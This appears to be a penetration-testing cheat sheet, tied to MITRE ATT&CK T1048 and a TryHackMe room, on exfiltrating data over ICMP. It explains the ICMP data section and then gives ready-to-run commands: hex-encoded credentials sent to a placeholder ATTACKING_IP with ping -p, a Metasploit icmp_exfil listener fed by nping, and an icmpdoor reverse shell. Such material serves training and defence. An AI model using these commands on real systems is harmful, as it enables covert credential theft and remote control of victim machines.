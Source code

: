 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - ID T1048
---
```

# Over ICMP

## Theory

The Internet Control Message Protocol [ICMP](https://en.wikipedia.org/wiki/Internet\_Control\_Message\_Protocol). It is a network layer protocol used to handle error reporting.

### ICMP Data Section

On a high level, the ICMP packet's structure contains a Data section that can include strings or copies of other information, such as the IPv4 header, used for error messages. The following diagram shows the Data section, which is optional to use.\
We can leverage this section in order to exfiltrate datas.

## Practice

{% tabs %}
{% tab title="Manualy" %}
We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.

```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping ATTACKING_IP -c 1 -p 726f6f743a7040737377307264210a
```

{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKING_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```

On the target, we can now exfiltrate data.

```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

On the victime machine:

```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKING_IP
```

On the attacking machine:

```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}
